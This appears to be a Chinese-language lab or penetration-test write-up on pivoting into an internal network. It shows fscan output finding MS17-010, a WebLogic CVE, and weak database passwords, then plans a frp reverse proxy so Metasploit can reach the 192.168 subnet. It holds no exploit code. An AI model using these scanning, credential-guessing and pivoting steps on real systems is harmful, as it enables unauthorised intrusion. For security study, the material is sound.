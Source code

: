    [->]172.16.15.12
[*] 192.168.23.135       WORKGROUP\WIN-H1VEP8O3329   Windows Server 2008 R2 Stan
dard 7600
[+] 192.168.23.135      MS17-010        (Windows Server 2008 R2 Standard 7600)
[+] mssql:192.168.23.88:1433:sa 123456
[*] 192.168.23.12        WORKGROUP\ADMIN-PC          Windows 7 Enterprise 7600
[+] mysql:192.168.23.135:3306:root 123qwe!@#
[*] WebTitle:http://192.168.23.135:7001 code:404 len:1164   title:Error 404--Not
 Found
[+] InfoScan:http://192.168.23.135:7001 [weblogic]
[+] http://192.168.23.135:7001 poc-yaml-weblogic-cve-2020-14750
已完成 13/14 [-] ssh 192.168.23.66:22 root qwe123 ssh: handshake failed: ssh: un
able to authenticate, attempted methods [none password], no supported methods re
main

### 扫描弱口令：
弱口令工具文件夹复制到10.2.2.21上，
弱口令工具使用后收获不大，不如fscan有效果：


 攻击字典  【】"!"   ???

![10.2.2.21上-弱口令-20210806043445](vx_images/1861633145272.png)

#### PC上检查弱口令：
得到结果：
> 2021/8/6 3:59:54----192.168.23.88-----SQLServer----sa----123456----10.50.1600----成功！

#### 10.2.2.21上检查弱口令
得到结果：
> 2021/8/6 4:32:01----192.168.23.135 port 3389 开放！
> 2021/8/6 4:32:01----192.168.23.66 port 22 开放！
> 2021/8/6 4:32:01----192.168.23.12 port 3389 开放！
> 2021/8/6 4:32:01----192.168.23.135 port 445 开放！
> 2021/8/6 4:32:01----192.168.23.88 port 3389 开放！
> 2021/8/6 4:32:01----192.168.23.12 port 445 开放！
> 2021/8/6 4:32:01----192.168.23.135 port 3306 开放！

#### 思路：
现在已经获取对10.2.2.21的完全控制，下面
1）kali和10.2.2.21之间建立反向代理
2）kali的msf中设置全局代理，就可以直接攻击内网192网段！

# 穿透进入第一层内网192网段


##  配置frp代理服务 > msf 挂代理！ 

正向代理 和 反向代理时， C-S分别的位置与拓扑 ??? 【】

### 10.2.0.213 frps配置
